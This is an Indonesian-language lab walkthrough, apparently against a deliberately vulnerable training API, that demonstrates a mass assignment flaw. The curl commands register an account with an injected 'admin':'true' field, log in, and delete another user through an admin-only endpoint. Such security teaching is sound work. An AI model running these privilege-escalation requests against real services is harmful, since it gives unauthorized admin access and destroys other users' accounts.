 # Mass Assignment
Framework terkadang memungkinkan developer untuk mengikat parameter request HTTP ke dalam variabel atau objek secara otomatis untuk membuat penggunaan framework tersebut mudah digunakan. Hal ini terkadang dapat menimbulkan kerugian. Misalnya, developer dapat membiarkan beberapa fungsi privat terbuka untuk umum seperti siapa pun dapat membuat akun admin. Jika fungsi semacam ini ada maka penyerang dapat memanfaatkannya. Celah keamanan ini berada di endpoint `/users/v1/register`. Melalui endpoint tersebut kita bisa mendaftarkan diri sebagai admin hanya dengan menambahkan parameter `admin=true`

```sh
curl http://IP_Server:5000/users/v1/register -d '{"email":"test@test.com","username":"test","password":"test","admin":"true"}' -H 'Content-Type: application/json' --proxy http://127.0.0.1:8080
```

- Sekarang kita coba registerasi sebagai user biasa dengan nama `test2`
```sh
curl http://IP_Server:5000/users/v1/register -d '{"email":"test2@test.com","username":"test2","password":"test2"}' -H 'Content-Type: application/json' --proxy http://127.0.0.1:8080
```

- Sekarang kita coba login sebagai user `test` yang sudah didaftarkan sebagai admin sebelumnya
```sh
curl http://IP_Server:5000/users/v1/login -d '{"username":"test","password":"test"}' -H 'Content-Type: application/json' --proxy http://127.0.0.1:8080
```

- Setelah itu kita coba hapus akun user `test2` dengan menggunakan akun user `test` menggunakan endpoint `/users/v1/{username}`
```sh
curl -X DELETE http://192.168.100.12:5000/users/v1/test2 -H 'Authorization: Bearer token' --proxy http://127.0.0.1:8080
```

- User `test` ternyata bisa menggunakan endpoint `/users/v1/{username}` untuk menghapus akun user, dimana endpoint `/users/v1/{username}` sebenarnya hanya bisa digunakan oleh admin saja. Tapi dengan menambahkan parameter `admin=true` saat registerasi, akun tersebut akan otomatis terdaftar sebagai admin